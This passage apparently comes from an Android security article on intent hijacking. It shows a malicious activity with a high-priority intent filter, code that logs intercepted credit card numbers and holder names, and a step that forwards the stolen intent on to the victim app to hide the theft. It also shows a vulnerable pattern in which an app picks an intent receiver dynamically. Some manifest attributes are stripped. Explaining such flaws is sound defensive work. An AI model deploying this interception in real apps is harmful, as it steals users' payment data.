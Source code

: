 The attacker can thus intercept credit card data as follows

`AndroidManifest.xml` file

```
<activity android:>
    <intent-filter android:priority="999">
        <action android: />
        <category android: />
    </intent-filter>
</activity>


```

`EvilActivity.java` file

```
Log.d("evil", "Number: " + getIntent().getStringExtra("credit_card_number"));
Log.d("evil", "Holder: " + getIntent().getStringExtra("holder_name"));
//...


```

In the case of a real attack, the malware can also steal data from the intent that is passed and then readdress it to the victim app that was originally supposed to receive it

```
startActivity(getIntent()
    .setComponent(null)
    .setPackage("com.victim"));
finish();


```

Dynamic determination of intent receivers
-----------------------------------------

Some apps try to stop the activity picker appearing by automatically determining a single recipient and setting it in the intent settings (which is also very common when launching services, since implicit intents are forbidden in service launch)

```
Intent intent = new Intent("com.victim.ADD_CARD_ACTION");
intent.putExtra("credit_card_number", num.getText().toString());
intent.putExtra("holder_name", name.getText().toString());
//...
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivity(intent);
    return;
}


```

